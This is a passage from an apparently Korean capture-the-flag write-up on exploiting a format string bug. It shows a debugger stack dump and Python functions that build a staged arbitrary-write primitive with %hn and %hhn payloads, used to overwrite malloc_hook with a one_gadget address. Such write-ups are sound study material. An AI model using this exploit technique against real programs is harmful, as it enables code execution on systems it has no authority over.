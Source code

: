 그래서 거꾸로 `malloc`을 호출하는 함수, `j_malloc`을 호출하는 함수를 xref해봤는데 `vfprintf`가 있는 것 까지는 확인했다.

### Arbitrary write

``` bash
gef➤  x/10gx $rsp
0x7fffffffebb0: 0x0000555555400a88      0x00007ffff7dd2540
0x7fffffffebc0: 0x0000000000000000      0x00007ffff7dd2620
0x7fffffffebd0: 0x00007fffffffebe0      0x0000555555400962
0x7fffffffebe0: 0x00007fffffffebc8      0x00005555554009d7
0x7fffffffebf0: 0x00005555554009f0      0x00007ffff7a2d840
```

자, 다시 stack을 보면 `0x7fffffffebc0($rsp+0x10)`이 `NULL`로 비어있다.

이 비어있는 공간(`free_space`)에 Double Staged FSB를 이용해 1차적으로 우리가 원하는 주소(`addr`)을 만들어주고

만들어진 주소를 포인터로 사용해 다시 Double Staged FSB를 이용하여 원하는 값(`value`)을 쓸 것이다.

당연히 `addr`은 `malloc_hook`이 될 것이고, `value`는 로딩된 위치의 one shot 가젯이 될 것이다.

이 과정을 python으로 만들면 다음과 같이 만들 수 있다.

``` python
def arbitrary_write(s, addr, value):
    write_primitive(s, addr, value & 0xffff)
    write_primitive(s, addr + 2, (value & 0xffff0000) >> 16)
    write_primitive(s, addr + 4, (value & 0xffff00000000) >> 32)
    write_primitive(s, addr + 6, (value & 0xffff000000000000) >> 48)

def write_primitive(s, addr, value):
    free_space = rsp + 0x10
    stack_control(s, free_space, addr & 0xffff)
    stack_control(s, free_space + 2, (addr & 0xffff0000) >> 16)
    stack_control(s, free_space + 4, (addr & 0xffff00000000) >> 32)
    stack_control(s, free_space + 6, (addr & 0xffff000000000000) >> 48)

    payload = f"%{value}c".encode()
    payload += b"%7$hn"
    s.sendline(payload)

def stack_control(s, stack, value):
    payload = f"%{stack}c".encode()
    payload += b"%9$hhn"
    s.sendline(payload)

    payload = f"%{value}c".encode()
    payload += b"%11$hn"
    s.sendline(payload)
```

사실 불필요한 payload가 많이 보내져서 효율적이진 않지만, 하다보니 욕심이 나서 라인 하나로 arbitrary write를 할 수 있게 만들었다.

``` python
arbitrary_write(s, malloc_hook, one_gadget)
```
